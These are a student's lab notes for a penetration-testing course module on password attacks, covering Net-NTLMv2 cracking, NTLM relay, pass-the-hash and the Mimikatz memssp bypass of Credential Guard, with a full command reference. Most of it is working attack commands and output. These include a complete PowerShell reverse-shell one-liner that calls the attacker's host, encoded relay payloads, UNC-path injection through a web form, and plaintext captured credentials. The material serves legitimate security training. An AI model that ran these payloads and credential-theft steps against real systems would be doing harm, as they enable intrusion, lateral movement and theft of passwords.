# Save and crack the hash (mode 5600 for Net-NTLMv2)
echo 'sam::MARKETINGWK01:fbfe8fec3371fff5:74F393595B1FECBB9A233C003D53C8FC:010100000000000000E4A9909229DD01BC7BD966FA3EA1730000000002000800460046005200570001001E00570049004E002D004500550033005900320037004F005A0045004A004B0004003400570049004E002D004500550033005900320037004F005A0045004A004B002E0046004600520057002E004C004F00430041004C000300140046004600520057002E004C004F00430041004C000500140046004600520057002E004C004F00430041004C000700080000E4A9909229DD01060004000200000008003000300000000000000000000000002000000EBA682425388E9E6CE32F897DC6AD2503FF58D9599C12C1D339EA7E7488B0AF0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200310039000000000000000000' > /tmp/sam.hash
hashcat -m 5600 /tmp/sam.hash /usr/share/wordlists/rockyou.txt --force
# sam::MARKETINGWK01:...:DISISMYPASSWORD
# Cracked in 8 seconds (78% through rockyou.txt)

# Evil-WinRM fails (WinRM not exposed); use RDP instead
xfreerdp /v:192.168.158.210 /u:sam /p:'DISISMYPASSWORD' /cert:ignore
# Flag on sam's desktop:
# OS{fd4c2c2822477f7330c3bcc67ca16e53}
```

> 🔧 **Hard-won lesson:** The standard backslash UNC path in the filename (`\\192.168.45.219\share\test.html`) returned an empty response with no Responder capture. The forward-slash equivalent (`//192.168.45.219/share/test.html`) triggered the capture immediately. On Windows, Go's `filepath.Clean` converts both to the same path internally, but some upload handlers or middleware strip or escape backslashes from filenames while leaving forward slashes untouched. Always try the forward-slash UNC form first when backslash injection doesn't produce a response.

> 🔧 **Hard-won lesson:** SCF files, `.url` Internet Shortcut files, and HTML files with `` all require an automated process that uses Windows Explorer (or IE) to browse or open the directory. If no such process is running, none of these file-based injection techniques will trigger. The Go file server's UNC filename injection is different -- it fires at upload time because the server process itself tries to create the file on the UNC path. No client-side browsing needed.

> 🔍 **Worth remembering generally:** When a Windows HTTP file server uses Go's `http.FileServer`, the lack of Windows reserved name filtering (NUL, AUX, COM1, etc.) is a strong indicator that the handler does minimal path sanitisation. If `/nul` returns 200 and `/aux` hangs, the filename injection technique has a good chance of working. Test it before trying more complex social-engineering approaches (file-based LLMNR capture, waiting for admin browsing cycles, etc.).

#### Tags: #NetNTLMv2 #Responder #NTLMCapture #Hashcat #LLMNR #NBT-NS #ChallengeResponse #Module16

---

### 16.3.4. Relaying Net-NTLMv2

When you can't crack a captured Net-NTLMv2 hash (complex password, long cracking time), you can **relay** it instead. Rather than recording the hash for offline cracking, you forward it in real time to a second target that accepts the same credentials.



**Constraints:**
- The relayed user must have local admin rights on the target machine to achieve code execution
- UAC remote restrictions must be disabled on the target, OR you must relay the local `Administrator` account (not a local admin group member)
- The target cannot be the same machine the authentication came from (you'd be relaying to yourself)

```bash
# Start ntlmrelayx: intercepts SMB auth and relays it to target
impacket-ntlmrelayx --no-http-server -smb2support \
  -t 192.168.50.212 \
  -c "powershell -enc JABjAGwAaQBlAG4AdA..."
# -c runs a command on the target after successful auth (base64-encoded PS reverse shell)
# --no-http-server: we're relaying SMB, not HTTP
# -smb2support: required for modern Windows targets

# In a separate terminal: nc listener for the reverse shell
nc -nvlp 8080

# In a bind shell on the victim machine: trigger authentication to Kali
dir \\<kali-ip>\test
```

> 🔧 **Technique:** the base64-encoded PowerShell reverse shell in the `-c` argument uses Unicode (UTF-16LE) encoding before base64, not plain ASCII. See [[Shells & Payloads (Breakdowns)#PowerShell -enc requires UTF-16LE|Command Breakdowns]] for the encoding mechanics. The IP in the shell payload must be your Kali IP and a port your nc listener is watching.

> 🔁 **Similar to:** the conceptual flow here mirrors the ARP poisoning / MITM concept -- you're inserting yourself into an authentication exchange between two parties. The approach is fundamentally the same as [[Antivirus Evasion#Capstone 2|Capstone 2's]] in-memory delivery: intercept, forward modified content, profit.

> 🔍 **Worth remembering generally:** a relay attack is the correct move when the hash is too complex to crack in the available time. The two techniques (cracking and relaying) are complementary: try to crack first (offline, low noise), switch to relay if cracking fails or takes too long.

> 📸 Screenshot: ntlmrelayx terminal showing "Authenticating against smb://target as USER SUCCEED" then "Executed specified command"
> 📸 Screenshot: nc listener catching the reverse shell and `whoami` confirming `nt authority\system`

> 🎬 **[ippsec.rocks: "ntlm relay"](https://ippsec.rocks/?#ntlm%20relay)** -- relay attacks are rarer in public HTB boxes than cracking/PtH; search "ntlmrelayx" or "impacket relay" and check Offsec PG Practice for more controlled relay scenarios

**Lab status:** (Q1 + Q2 hands-on)

**Lab status: ✅ Completed (VM Group 1)**

**VM Group 1 (FILES01: 192.168.158.211, FILES02: 192.168.158.212) -- relay files02admin's NTLM to FILES02, read flag:**

The intended path is: bind shell on FILES01 triggers `dir \\kali\test` as files02admin → ntlmrelayx relays to FILES02 → reverse shell. In practice, the bind shell runs as paul (not files02admin) and no automated admin process makes outbound SMB connections to Kali. The relay itself works but paul's credentials are rejected by FILES02.

Actual path taken: extract files02admin's NTLM hash from the SAM (via gunther schtask Mimikatz trick from 16.3.2), then PtH directly to FILES02 -- bypassing the relay entirely.

```bash
# Base64-encode the PS reverse shell for ntlmrelayx -c (Python, UTF-16LE)
cat > /tmp/gen_payload.py << 'PYEOF'
import base64
cmd = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.219",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
print(base64.b64encode(cmd.encode('utf-16-le')).decode())
PYEOF
python3 /tmp/gen_payload.py
# → JABjAGwA... (base64 blob)

# Terminal 1: start ntlmrelayx (intercepts SMB auth, relays to FILES02, executes -c command)
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.158.212 \
  -c "powershell -enc JABjAGwA..."

# Terminal 2: nc listener for the reverse shell
nc -nvlp 8080

# Terminal 3: bind shell on FILES01 -- trigger NTLM auth to Kali
nc 192.168.158.211 4444
# dir \\192.168.45.219\test
```

The relay intercepted paul's auth (bind shell runs as paul) -- paul is not local admin on FILES02 so relay failed:
```
[-] (SMB): Authenticating against smb://192.168.158.212 as FILES01/PAUL FAILED
```

No automated process runs as files02admin, and files02admin's hash doesn't crack with rockyou + best66/rockyou-30000/dive/d3ad0ne rules. But the SAM dump gave us files02admin's raw NTLM hash -- and raw NTLM hashes can be passed directly, unlike Net-NTLMv2 hashes.

```cmd
# From paul's bind shell: dump SAM as gunther via schtask (same trick as 16.3.2)
schtasks /create /tn "HashDump2" /tr "cmd /c C:\tools\mimikatz.exe \"privilege::debug\" \"token::elevate\" \"lsadump::sam\" exit > C:\tools\sam2.txt 2>&1" /sc once /st 00:00 /ru FILES01\gunther /rp "password123!" /f
schtasks /run /tn "HashDump2"
type C:\tools\sam2.txt
# files02admin NTLM: e78ca771aeb91ea70a6f1bb372c186b6
```

```bash
# PtH directly to FILES02 as files02admin (no plaintext needed)
impacket-psexec -hashes 00000000000000000000000000000000:e78ca771aeb91ea70a6f1bb372c186b6 \
  files02admin@192.168.158.212
# C:\Windows\system32> type C:\Users\files02admin\Desktop\flag.txt
# OS{0360d5711918d92ad7fe85787d2502ef}
```

> 🔧 **Hard-won lesson:** The relay attack requires a victim user with local admin rights on the target to make an outbound SMB connection to the relay listener. If the bind shell runs as a non-admin user (paul), the relay fails. There's no need to crack the hash if you can obtain the raw NTLM from SAM -- PtH directly achieves the same access that relay would have given. The relay technique shines when you ONLY have a Net-NTLMv2 capture (which can't be passed), not when you have the underlying NTLM hash.

> 🔧 **Technique:** `pwsh -c` fails for nested quote escaping on Linux. Generate base64 PS payloads with Python instead: `base64.b64encode(cmd.encode('utf-16-le')).decode()`. The UTF-16LE encoding is required -- plain ASCII base64 won't be accepted by PowerShell's `-enc` parameter.

**Lab status: ✅ Completed (VM Group 2 Capstone)**

**VM Group 2 (BRUTE2: 192.168.158.202, FILES02: 192.168.158.212) -- Beta App PowerShell input → relay anastasia's auth to FILES02:**

BRUTE2 has a Go HTTP server on port 8000 with a "Beta App" form (`action="/archive"`, field name `Archive`) that passes input directly to a server-side PowerShell terminal. The app runs as anastasia, who is a local admin on FILES02.

```bash
# Terminal 1: ntlmrelayx pointing at FILES02 with reverse shell payload
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.158.212 \
  -c "powershell -enc JABjAGwA..."

# Terminal 2: nc listener
nc -nvlp 8080

# Trigger: POST dir command to Beta App -- server executes it as anastasia,
# authenticates to our Kali ntlmrelayx listener, which relays to FILES02
curl -X POST http://192.168.158.202:8000/archive \
  --data-urlencode "Archive=dir \\\\192.168.45.219\\test"
# Server returns: "An error occured with execution: exit status 1"
# (expected -- dir fails, but NTLM handshake already completed)
```

ntlmrelayx output:
```
[*] (SMB): Received connection from 192.168.158.202, attacking target smb://192.168.158.212
[*] Authenticating against smb://192.168.158.212 as BRUTE2/ANASTASIA SUCCEED
[*] Executed specified command
```

```
# nc catches the reverse shell on FILES02
Connection received on 192.168.158.212 49733
whoami  →  nt authority\system
type C:\Users\anastasia\Desktop\flag.txt
OS{060aee7f5fd9ddc5797feed6910379b9}
```

> 🔍 **Worth remembering generally:** This capstone is the cleanest relay scenario: web app with explicit server-side code execution, no bind shell or hash extraction needed. The form field passes your input to PowerShell, so `dir \\kali-ip\test` runs as the web app's service account (anastasia). If anastasia is local admin on any other machine, that's your relay target. Enumerate service account privileges before deciding where to relay.

#### Tags: #NTLMRelay #ntlmrelayx #NetNTLMv2 #impacket #RelayAttack #SMB #Module16

---

### 16.3.5. Windows Credential Guard

Credential Guard is Microsoft's response to Mimikatz-style hash extraction. Understanding it matters because modern Windows enterprise deployments are enabling it by default.

**The architecture:**



**Key concepts:**
- **VBS (Virtualization-Based Security):** uses Hyper-V to create isolated memory regions the OS kernel cannot access
- **VSM (Virtual Secure Mode):** the mechanism for isolating VTL1 from VTL0
- **VTL0:** normal Windows environment -- kernel, userland, LSASS.exe. Even SYSTEM-level access lives here
- **VTL1:** isolated secure environment -- LSAISO.exe runs here and holds encrypted copies of cached credentials
- **Credential Guard only protects domain accounts** (non-local). Local account hashes remain in LSASS and are still extractable by Mimikatz

**Checking if Credential Guard is enabled:**
```powershell
Get-ComputerInfo | Select-Object DeviceGuardSecurityServicesRunning
# Look for "CredentialGuard" in the output
```

**What Mimikatz sees when Credential Guard is active:**
```
msv:
 [00000003] Primary
  * LSA Isolated Data: NtlmHash
    KdfContext: 7862d5bf...
    Tag: 04fe7ed6...
    Encrypted: 6ad53699...
```
The hash is there but encrypted by LSAISO. Mimikatz can read the encrypted blob but cannot decrypt it.

**Bypass: Malicious SSP injection with `misc::memssp`**

Security Support Providers (SSPs) are DLLs that plug into the SSPI authentication framework. LSASS loads them at startup from `HKLM\System\CurrentControlSet\Control\Lsa\Security Packages`. Mimikatz's `memssp` injects a fake SSP directly into LSASS memory without dropping a DLL on disk.

The injected SSP intercepts authentication calls at the SSPI layer, before Credential Guard has a chance to encrypt anything. When a user authenticates (via RDP, local login, etc.), the SSP sees the plaintext credentials and writes them to `C:\Windows\System32\mimilsa.log`.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

# Wait for a user to authenticate (or coerce one to reconnect)
# Then check the log file:
type C:\Windows\System32\mimilsa.log
# [00000000:00af2311] CORP\Administrator  QWERTY123!@#
```

**Why memssp beats Credential Guard:**



The hook fires at the SSPI call boundary -- the only point where credentials exist in plaintext inside VTL0. Credential Guard encrypts them after this call returns, so the timing is the bypass.

> 🔧 **Technique:** `misc::memssp` requires Administrator privileges and only persists until the system reboots. The credentials log only captures new authentication events after injection -- it won't reveal credentials from sessions that were already open. In a pentest, inject the SSP, then wait (or socially engineer a target to reconnect) and check the log on the next visit.

> 🔍 **Worth remembering generally:** Credential Guard is currently not enabled by default on systems that were updated from an older Windows version -- it only enables by default on fresh installs with modern Windows builds. In practice, most corporate machines you encounter in assessments are long-running and won't have it enabled. But this is changing, and knowing the bypass is important.

> 🔍 **Worth remembering generally:** VBS and Credential Guard require the hypervisor to run at a privilege level above the kernel itself. This is why even SYSTEM access is insufficient to bypass it through normal means -- SYSTEM is in VTL0, and the credentials are in VTL1.

> 📸 Screenshot: `Get-ComputerInfo` output showing `CredentialGuard` in `DeviceGuardSecurityServicesRunning`
> 📸 Screenshot: Mimikatz showing the encrypted "LSA Isolated Data" block instead of a plaintext NTLM hash
> 📸 Screenshot: `mimilsa.log` contents showing captured plaintext domain credentials after SSP injection

> 🎬 **[ippsec.rocks: "credential guard"](https://ippsec.rocks/?#credential%20guard)** -- Credential Guard bypass is very rare in public HTB/PG boxes (most lab environments disable it for compatibility); search "memssp" or "lsa ssp" for any coverage; the technique matters more for real-world engagements than lab boxes

**Lab status: ✅ Completed** (Q1-Q4 pure-recall):

| Question                                                                                  | Answer                                                                            |
| ----------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- |
| Start VM Group 1 and repeat the steps. What domain does the Administrator user belong to? | **CORP** (the Mimikatz output shows `Domain: CORP` under the Administrator entry) |
| What is the name of the hypervisor developed by Microsoft?                                | **Hyper-V**                                                                       |
| In which Virtual Trust Level (VTL) can LSAISO.exe be found?                               | **VTL1** (the secure/isolated world -- VTL0 is the normal Windows environment)    |
| In what format must Security Support Providers be to register in lsass.exe?               | **DLL** (SSPs are DLLs loaded by LSASS from the registry key at startup)          |

**Lab status: ✅ Completed**

**VM Group 1 — CLIENTWK245 (offsec/lab, 192.168.158.245):**

```
# --- From Kali: RDP in as offsec ---
xfreerdp /u:offsec /p:lab /v:192.168.158.245

# --- Inside CLIENTWK245 (PowerShell) ---

# Confirm Credential Guard is active
Get-ComputerInfo | Select-Object DeviceGuardSecurityServicesRunning
# DeviceGuardSecurityServicesRunning: {CredentialGuard, HypervisorEnforcedCodeIntegrity}

# Launch Mimikatz
cd C:\tools\mimikatz
.\mimikatz.exe

# Enable SeDebugPrivilege
privilege::debug
# Privilege '20' OK

# Try to dump plaintext creds -- Credential Guard blocks it
sekurlsa::logonpasswords
# All domain accounts: wdigest: KO
# CORP accounts: "LSA Isolated Data" encrypted blobs (held in LSAISO.exe in VTL1)
# No plaintext passwords -- Credential Guard working as intended

# Inject malicious SSP into LSASS memory
misc::memssp
# Injected =)

# Exit Mimikatz -- SSP stays alive in LSASS until reboot
exit

# Simulate an interactive CORP\Administrator login
# In a real engagement: wait for an admin to RDP or log in
# In this lab: use runas with the known admin credentials to trigger the auth event
runas /user:CORP\Administrator cmd
# Enter password: QWERTY123!@#

# Read the log -- memssp captured credentials at SSPI layer, before Credential Guard encrypted them
type C:\Windows\System32\mimilsa.log
# [00000000:0062c7b8] CLIENTWK245\offsec  lab
# [00000000:00646420] CORP\Administrator  QWERTY123!@#
```

Lab answer: **What domain does the Administrator user belong to? → CORP**

> 📸 Screenshot: mimilsa.log after the runas-triggered auth -- `CORP\Administrator  QWERTY123!@#` captured in plaintext despite Credential Guard being active

> 🔧 **Technique:** the lab has known admin credentials, so `runas` simulates the auth event. In a real engagement you'd inject memssp then wait for a privileged user to log in or reconnect an existing session. The log only captures NEW authentication events after injection -- pre-existing sessions aren't recaptured.

> 🔧 **Technique:** if `misc::memssp` is injected twice (e.g. after a restart of Mimikatz while waiting), use `runas` or another forced local auth to verify the SSP is still alive before assuming the lab automation is slow. The SSP writes to mimilsa.log on any new auth event, so a missing log file after several minutes is a signal to test the injection, not just wait longer.

#### Tags: #CredentialGuard #VBS #HyperV #VSM #VTL #LSAISO #SSPI #memssp #Mimikatz #Module16

---

## 16.4. Wrapping Up

Password attacks span the full engagement lifecycle.

On **external assessments**, dictionary attacks and spraying against SSH, RDP, and web login forms are often the first viable foothold vector -- much quieter than exploitation and more reliable than hoping for an unpatched CVE.

On **internal assessments**, the Windows-specific material (Mimikatz, pass-the-hash, Responder, relay) is the bread and butter of lateral movement. Most real-world Windows environments still rely on NTLM for backward compatibility, and unsalted NTLM hashes being static makes PtH a durable technique.

The cracking methodology matters outside of password cracking too: extract, format, calculate feasibility, prepare, attack. That disciplined sequence applies any time you're working with data that needs processing before it's useful.



> 🔗 **PayloadsAllTheThings** -- password attacks and credential dumping cheat sheets (GitHub source): [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
> 🔗 **HackTricks** -- Windows credential dumping, Mimikatz, pass-the-hash (GitHub): [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks) -- search "mimikatz" and "pass the hash" within the repo
> 🔗 **Hashcat wiki** -- full list of hash modes and example hashes: [hashcat.net/wiki/doku.php?id=hashcat](https://hashcat.net/wiki/doku.php?id=hashcat)
> 🔗 **Mimikatz project** -- official repo, full command documentation: [github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

#### Tags: #Module16Summary #PasswordAttacks

---

## 📋 Command Reference: Password Attacks

```bash
# --- Network service attacks (Hydra) ---

# Decompress rockyou.txt (first-time setup)
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

# SSH dictionary attack: single user, wordlist, non-standard port
hydra -l <user> -P /usr/share/wordlists/rockyou.txt -s <port> ssh://<target-ip>

# RDP password spray: user list, single password
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<password>" rdp://<target-ip>

# HTTP POST form attack
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target-ip> \
  http-post-form "/<path>:<POST_body_with_^PASS^>:<failed_login_indicator>"

# Add usernames to wordlist
echo -e "user1\nuser2" | sudo tee -a /usr/share/wordlists/dirb/others/names.txt

# --- Password cracking fundamentals ---

# Hashcat benchmark (know your hash rates)
hashcat -b

# Calculate keyspace and cracking time
python3 -c "print(62**8)"                           # keyspace for 62-char charset, len 8
python3 -c "print(<keyspace> / <hashrate_per_sec>)" # seconds to exhaust keyspace

# Debug rule mutations (no cracking, just show output)
hashcat -r demo.rule --stdout wordlist.txt

# Crack an MD5 hash with rules
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -r demo.rule --force

# Crack with Hashcat's built-in rules
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best66.rule --force

# --- KeePass ---

keepass2john Database.kdbx > keepass.hash
# Remove "Database:" prefix from keepass.hash before cracking
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/rockyou-30000.rule --force

# --- SSH private key passphrase ---

ssh2john id_rsa > ssh.hash
# Remove "id_rsa:" prefix from ssh.hash before cracking
hashcat -m 22921 ssh.hash wordlist.txt -r rules.rule --force
# If Hashcat gives "Token length exception" (aes-256-ctr), use JtR instead:
sudo sh -c 'cat /path/to/ssh.rule >> /etc/john/john.conf'
john --wordlist=ssh.passwords --rules=sshRules ssh.hash

# --- NTLM (Mimikatz + Hashcat) ---

# Run inside Mimikatz on Windows target (as Administrator):
# privilege::debug
# token::elevate
# lsadump::sam              <- hashes from SAM
# sekurlsa::logonpasswords  <- cached hashes including domain accounts

# Crack NTLM hash on Kali
hashcat -m 1000 ntlm.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best66.rule --force

# --- Pass-the-hash ---

# Access SMB share
smbclient \\\\<target>\\<share> -U Administrator --pw-nt-hash <NT_hash>

# Get SYSTEM shell via PtH
impacket-psexec -hashes 00000000000000000000000000000000:<NT_hash> Administrator@<target>

# Get shell as authenticated user
impacket-wmiexec -hashes 00000000000000000000000000000000:<NT_hash> Administrator@<target>

# --- Net-NTLMv2 capture and cracking ---

# Start Responder
sudo responder -I <interface>

# Trigger auth from victim (in bind shell / code exec on target)
# dir \\<kali-ip>\test

# Crack captured hash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force

# --- Net-NTLMv2 relay ---

# Relay to target, execute reverse shell command
impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> \
  -c "powershell -enc <base64-PS-reverse-shell>"

# Catch the shell
nc -nvlp <port>

# --- Credential Guard bypass (memssp) ---

# Inside Mimikatz on target with Admin rights:
# privilege::debug
# misc::memssp

# After a user authenticates, read the plaintext credentials:
# type C:\Windows\System32\mimilsa.log

# --- Hash identification ---
hash-identifier <hash>
hashid <hash>
hashcat --help | grep -i "<algorithm>"
```

- **Command Appendix (Password Attacks sections):** *(to be added during hub-doc sync)*
- **Command Breakdowns:** *(Hydra http-post-form syntax, Net-NTLMv2 challenge-response mechanics, Mimikatz privilege chain -- to be added during hub-doc sync)*
- **Decision Tree:** *(credential attack decision nodes -- to be added during hub-doc sync)*
- **Methodology Cheat Sheet:** [[Windows Methodology]] *(password attack phase to be added during hub-doc sync)*
- **Modern Tooling:** [[NetExec]] already covers password spraying across SMB/AD (successor to CrackMapExec -- directly relevant to 16.1.2 and 16.3.x). See [[MODERN TOOLING]].

#### Tags: #CommandReference #Module16

---

## 🎯 Related Boxes to Practice

A note on coverage: network-level brute force (Hydra against SSH/RDP) is often disabled in HTB boxes because it would break the timing of other challenges. The cracking and hash-manipulation techniques in 16.2 and 16.3 are much better represented in public boxes.

---

**NTLM hash extraction and cracking:**

**[HTB Bastion](https://app.hackthebox.com/machines/Bastion)** (Windows, Easy) -- the standout box for this module. An SMB share exposes VHD files (virtual hard disk images). Mounting them reveals a SAM database from a Windows installation, which you extract and crack to get credentials. Exactly the methodology from 16.3.1, applied to a different extraction path (VHD mount rather than Mimikatz). Do this one.

**[HTB Active](https://app.hackthebox.com/machines/Active)** (Windows, Easy) -- already done. The GPP credentials angle and the Kerberoasting technique are adjacent to this module's NTLM cracking content. The hash handling patterns feel the same even though the hash type differs.

---

**Pass-the-hash and lateral movement:**

**[HTB Cascade](https://app.hackthebox.com/machines/Cascade)** (Windows, Medium) -- Windows AD box. Involves credential discovery in LDAP attributes, reused credentials, and lateral movement via recovered hashes. PtH and impacket tools apply directly.

**[HTB SecNotes](https://app.hackthebox.com/machines/SecNotes)** (Windows, Medium) -- credentials stored in a note-taking application. Demonstrates how plaintext passwords end up in unexpected places, the same scenario as 16.2.5's note.txt and dave's password list.

---

**Responder and Net-NTLMv2:**

**[PG Practice: Hutch](https://www.offensive-security.com/labs/)** -- Windows box on the OSCP prep list. Community flagged as involving NTLM authentication capture and credential relay or cracking. Relevant to 16.3.3 and 16.3.4.

**[PG Practice: AuthBy](https://www.offensive-security.com/labs/)** -- explicitly involves authentication brute forcing as a core technique, rare for a public box. Closest thing to a direct Hydra practice target.

> 🔧 **Verify before attempting:** PG Practice VMs update. Check recent community write-ups on the OSCP Discord or OffSec forums before spinning these up to confirm the current technique requirements.

---

**KeePass and credential files:**

No confirmed public HTB box where KeePass cracking is the primary vector (it usually appears as a secondary step). The technique most closely resembles the password manager enumeration in any Windows assessment box where you gain GUI access. The pattern (find .kdbx, keepass2john, crack) is the same regardless of the discovery path.

---

**Finding more:**

> 🔗 **ippsec.rocks** -- search `"mimikatz"`, `"ntlm"`, `"responder"`, `"pass the hash"`, or `"hashcat"` to find boxes where these techniques appeared in context: [ippsec.rocks](https://ippsec.rocks)
> 🔗 **TJNull's OSCP prep list** -- filter for Windows boxes: many of them involve some credential handling, even if password cracking isn't the stated technique

#### Tags: #RelatedBoxes #Module16 #HTBBastion #HTBCascade

---

## **Outstanding Sections**

- [x] **16.1.1 SSH:** done (theory, Hydra flags, quiz N/A, hands-on pending)
- [x] **16.1.2 RDP:** done (theory, password spraying, account lockout risks, hands-on pending)
- [x] **16.1.3 HTTP POST Login Form:** done (theory, Burp capture, Hydra http-post-form syntax, hands-on pending)
- [x] **16.2.1 Introduction to Encryption, Hashes and Cracking:** done (symmetric/asymmetric/hashing, Hashcat benchmark, keyspace/cracking time, all 4 quiz answers including 13-minute cracking time calculation)
- [x] **16.2.2 Mutating Wordlists:** done (rule functions table, same-line vs separate-line rules, --stdout debugging, hash cracking labs pending)
- [x] **16.2.3 Cracking Methodology:** done (5-step flowchart, hash identification quiz answers: SHA-1 and bcrypt)
- [x] **16.2.4 Password Manager:** done (KeePass workflow, keepass2john, mode 13400, hands-on pending)
- [x] **16.2.5 SSH Private Key Passphrase:** done (ssh2john, Hashcat mode 22921, aes-256-ctr JtR fallback, hands-on pending)
- [x] **16.3.1 Cracking NTLM:** done (SAM, SYSKEY, LM vs NTLM, Mimikatz privilege chain, mode 1000, hands-on pending)
- [x] **16.3.2 Passing NTLM:** done (PtH mechanics, UAC remote restrictions, smbclient/psexec/wmiexec, lab complete -- bind shell entry, schtasks Mimikatz workaround, PtH to FILES02)
- [x] **16.3.3 Cracking Net-NTLMv2:** done (challenge-response diagram, Responder, mode 5600, LLMNR poisoning note, VM #1 lab complete -- paul:123Password123, OS{fbba4d3334de37e8ab70fc0b4fc87f2c}; VM #2 lab complete -- UNC filename injection, sam:DISISMYPASSWORD, OS{fd4c2c2822477f7330c3bcc67ca16e53})
- [x] **16.3.4 Relaying Net-NTLMv2:** done (relay attack sequence diagram, ntlmrelayx, VM Group 1 complete -- files02admin PtH, OS{0360d5711918d92ad7fe85787d2502ef}; VM Group 2 capstone complete -- Beta App PowerShell relay, anastasia, OS{060aee7f5fd9ddc5797feed6910379b9})
- [x] **16.3.5 Windows Credential Guard:** done (VBS/VSM/VTL architecture diagram, memssp bypass, mimilsa.log, all 4 quiz answers)
- [x] **16.4 Wrapping Up:** done (decision flowchart, external resources)

**Module 16 fully complete. All hands-on labs done: 16.1.1 SSH ✅, 16.1.2 RDP+FTP ✅, 16.1.3 HTTP POST+Basic ✅, 16.2.2 hash cracking ✅, 16.2.4 KeePass ✅, 16.2.5 SSH key ✅, 16.3.1 NTLM cracking ✅, 16.3.2 PtH ✅, 16.3.3 Net-NTLMv2 cracking VM #1 ✅, 16.3.3 Net-NTLMv2 cracking VM #2 ✅, 16.3.4 Relaying VM Group 1 ✅, 16.3.4 Relaying VM Group 2 (capstone) ✅, 16.3.5 Credential Guard memssp ✅. Solo enrichment pass and hub-doc sync still to do.**
